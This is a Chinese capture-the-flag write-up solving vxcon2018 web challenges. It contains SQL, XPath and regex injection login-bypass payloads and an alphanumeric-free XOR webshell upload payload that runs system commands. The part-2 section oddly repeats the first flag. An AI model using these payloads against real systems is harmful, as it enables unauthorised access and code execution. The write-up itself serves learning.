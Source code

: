 # vxcon2018
這次比賽個人覺得難度沒有很高(因為我至少有頭緒:joy:)，題目質量都能確保讓我們學到東西， 下面紀錄一些賽後解出來的題目...

## Lock Pick Duck (1)
[source code](https://github.com/shinmao/CTF-writeups/blob/master/vxcon2018/lpd_source.php)  
payload滿足三個條件就能拿到第一把flag  
```php
if(@preg_match("/^$U,$P$/m", $csvdb)){
        $flag++;
        echo "csvdb1\n";
    }

    if(@$sqldb->querySingle("SELECT username FROM users WHERE username='$U' AND password='$P'") == TRUE){
        $flag++;
        echo "sqldb1\n";
    }

    if(@$xmldb->xpath("//users/user[username='$U' and password='$P']") == TRUE){
        $flag++;
        echo "xmldb1\n";
    }
```
上面是通過的三個條件：  
2和3很簡單，sql injection 和 xpath injection 用
```php
?username='or''='&password='or''='
```
就可以通過  
第一個條件我就想了很久，注入正則想也知道洞很大，卻遲遲想不到怎麼注入  
賽後才知道，不如讓全部都匹配吧:+1:  
```php
?username=(.*)|' or ''='&password=(.*)|' or ''='
```
這樣就可以拿到第一把flag： `Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
除此之外，肯定還有很多繞過方法

## Lock Pick Duck (2)
繼上題一樣的source code，payload滿足六個條件就能拿到第二把flag  
第二題我目前最多只能構造到四個條件，xpath的條件都跟其他條件衝突  
不過也學到不少關於`preg_match`跟正則的關係  
payload: `http://trick.fflm.ml/?username=(a)|' union select 'a'--&password=a`  
必須重複刷新直到csv架構中出現**a**字元：`Flag 1: vxctf{y0u_d0_kn0w_InjectI0n_101}`  
![](https://github.com/shinmao/CTF-writeups/blob/master/vxcon2018/screenshot/LDP4conditions.png)


## Patch Peep Huck (w)
```php
 <?=
!$I=&$_FILES[!!$l='tmp_name'] || $I['size']>>7 || preg_match('/\w/',join(file($I[$l])))?
!show_source(__FILE__) : !include($I[$l]);
```
我在比賽時碰到了**讀不懂代碼**的問題:cold_sweat:  
賽後看了@kaibro的wp真的是讓我驚呆了呀  
首先是:
```php
$_FILES[!!$l='tmp_name']
```
這部分，我對`$_FILES`的結構還是有所了解的。`tmp_name`應該是要在第二層陣列之中，我在這裡卡了好久。原來問題出在`!!`，`!!`會將語句轉為boolean回傳true or false！  
這裏將`tmp_name`傳入參數的動作一定會回傳true，因此事實上這裏傳入`$I`的東東就是`$_FILES[1]`。  
解開了代碼的疑惑，再來看題目想幹嘛：  
上傳FILE，限制FILE的size，並且將FILE的內容join成字串做匹配  
典型的上傳webshell題，內容不能帶有字母，數字，底線  
(上傳檔案不一定要用burp代理，也可以自己寫個upload form，把action設給題目就好)  
一開始我卡在**底線的部分**很久，賽後看了@kaibro引用了在@l4w中的技巧 -> 表情符號  
終於自己寫出了個payload：  
```php
<?=
$😊 = "||||%-" ^ "/%/(``"; 
$😊 ("`|" ^ ",/");
```
剛開始解題的時候，我也有常識XOR的思路，根據P師傅的說法，我們可以用兩個特殊符號做XOR構造出a-z之間的字母，可是我卻怎麼湊都湊不出來...  
賽後才想到，乾脆來寫個php，把所以特殊符號之間的XOR都列出來，直接查表不就得了:  
```php
$arr1 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");
$arr2 = array("!","'","#","%","&","(",")","[","]","/","\\","?",".",",","^","_","~","*","+","-","<",">","=","{","}","\"",":",";","`","|");

foreach ($arr1 as $value1) {
	foreach ($arr2 as $value2) {
		$x = $value1^$value2;
		print($x." ".$value1." ".$value2);
		echo "<br/>";
	}
	echo "<br/>";
}
```
於是通過上面的懶蟲法，我成功湊出了`<?=SYSTEM(LS);`的payload  

## Reference
1. [Kaibro WP](https://github.com/w181496/CTF/tree/master/vxcon2018)  
2. [官方詳解](https://github.com/ozetta/ctf-challenges)  
3. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
